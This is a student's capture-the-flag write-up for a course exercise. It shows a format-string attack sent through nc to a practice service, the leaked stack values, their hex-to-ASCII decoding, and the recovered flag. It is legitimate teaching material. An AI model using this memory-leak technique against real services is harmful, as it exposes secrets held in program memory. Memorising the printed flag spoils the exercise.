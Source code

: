 # Exercise 1
## Jakob Udovic, s1049877

connect to service:  
`nc hackme.rded.nl 53133`

```
jakob@j-thinkpad-x1-carbon-2nd:~/Documents/git/HackingInC2020$ echo "$(perl -e 'print "%p "x95')" | nc hackme.rded.nl 53133
0x8080808080808080 0x7fffffffebb7 0 0xfefefefefefefeff 0x7ffff7ffc645 0x4869434354467b57 0x30456b6f75526c52 0x346659586f705766 0x58696f774f667339 0x4f4d687968326746 0x704f6e724d6e494d 0x42514e694b515553 0x5331454c704d4953 0x61546b5a5030377d 0x1 0x7ffff7ffc645 0x7ffff7ffe360 0 0x48 0x7fffffffeb70 0xe0bec4c970082cdf 0x7fffffffec98 0x5555555552f1 0x7fffffffec30 0x5555555552da 0x1 0x120 0x7ffff7ffe360 0xe0bec4c970082cdf 0x7fffffffec40 0x5555555552ff 0x1 0x7ffff7f851f5 0x7ffff7f851ce 0x7fffffffec80 0 0xf8 0x7ffff7ffdd48 0x5555555550be 0x1 0x7fffffffee82 0 0x7fffffffee8f 0x7fffffffeed1 0x7fffffffeedc 0x7fffffffef08 0x7fffffffef1c 0x7fffffffef28 0x7fffffffef2e 0x7fffffffef41 0x7fffffffef48 0x7fffffffef55 0x7fffffffef63 0x7fffffffef79 0x7fffffffef88 0x7fffffffefa5 0x7fffffffefb9 0x7fffffffefd6 0 0x21 0x7ffff7f68000 0x10 0x1f8bfbff 0x6 0x1000 0x11 0x64 0x3 0x555555554040 0x4 0x38 0x5 0xa 0x7 0x7ffff7f69000 0x8 0 0x9 0x5555555550a8 0xb 0xfffe 0xc 0xfffe 0xd 0xfffe 0xe 0xfffe 0x17 0 0x19 0x7fffffffee69 0x1a 0 0x1f 0x7fffffffefeb
```

The stack I obtained by giving it a bunch of %p:  
`$ echo "$(perl -e 'print "%p "x100')" | nc hackme.rded.nl 53133`

```
0x8080808080808080 0x7fffffffebb7 0 0xfefefefefefefeff 0x7ffff7ffc645 0x4869434354467b57 0x30456b6f75526c52 0x346659586f705766 0x58696f774f667339 0x4f4d687968326746 0x704f6e724d6e494d 0x42514e694b515553 0x5331454c704d4953 0x61546b5a5030377d 0x1 0x7ffff7ffc645 0x7ffff7ffe360 0 0x48 0x7fffffffeb70 0x998b3c4c409d24f6 0x7fffffffec98 0x5555555552f1 0x7fffffffec30 0x5555555552da 0x1 0x120 0x7ffff7ffe360 0x998b3c4c409d24f6 0x7fffffffec40 0x5555555552ff 0x1 0x7ffff7f851f5 0x7ffff7f851ce 0x7fffffffec80 0 0xf8 0x7ffff7ffdd48 0x5555555550be 0x1 0x7fffffffee81 0 0x7fffffffee8e 0x7fffffffeed0 0x7fffffffeedb 0x7fffffffef07 0x7fffffffef1b 0x7fffffffef27 0x7fffffffef2d 0x7fffffffef40 0x7fffffffef47 0x7fffffffef55 0x7fffffffef63 0x7fffffffef79 0x7fffffffef88 0x7fffffffefa5 0x7fffffffefb9 0x7fffffffefd6 0 0x21 0x7ffff7f68000 0x10 0x1f8bfbff 0x6 0x1000 0x11 0x64 0x3 0x555555554040 0x4 0x38 0x5 0xa 0x7 0x7ffff7f69000 0x8 0 0x9 0x5555555550a8 0xb 0xfffe 0xc 0xfffe 0xd 0xfffe 0xe 0xfffe 0x17 0 0x19 0x7fffffffee69 0x1a 0 0x1f 0x7fffffffefeb
```

After overthinking with addresses and their meaning I remembered the data can be stored in the stack too.  

Therefore anything not starting on 0x7fff... was interesting to me to convert from hex to ascii.  
I decided to trim the stack a bit, so I ignored the first 5 variables (registers) and focused on the rest.  
Quickly, I figured that the string starts on the 6th place, because I was looking for a value 4343. That represents CC in hex:  

```
Dec, Hex, Chr
67, 43, C
72, 48, H
```

These were the addresses I focused on:
```
$ ./attack.sh 
0x4869434354467b57
0x30456b6f75526c52
0x346659586f705766
0x58696f774f667339
0x4f4d687968326746
0x704f6e724d6e494d
0x42514e694b515553
0x5331454c704d4953
0x61546b5a5030377d
```

Then, I used a shell scrip that tried to run ./reverseaddr on every value, but then I quickly realized I do not need to do that.  
I used online [hex-to-ascii converter](https://www.rapidtables.com/convert/number/hex-to-ascii.html)

By entering
```
4869434354467b57 
30456b6f75526c52
346659586f705766
58696f774f667339
4f4d687968326746
704f6e724d6e494d
42514e694b515553
5331454c704d4953
61546b5a5030377d
```

Flag: 
```
HiCCTF{W0EkouRlR4fYXopWfXiowOfs9OMhyh2gFpOnrMnIMBQNiKQUSS1ELpMISaTkZP07}
```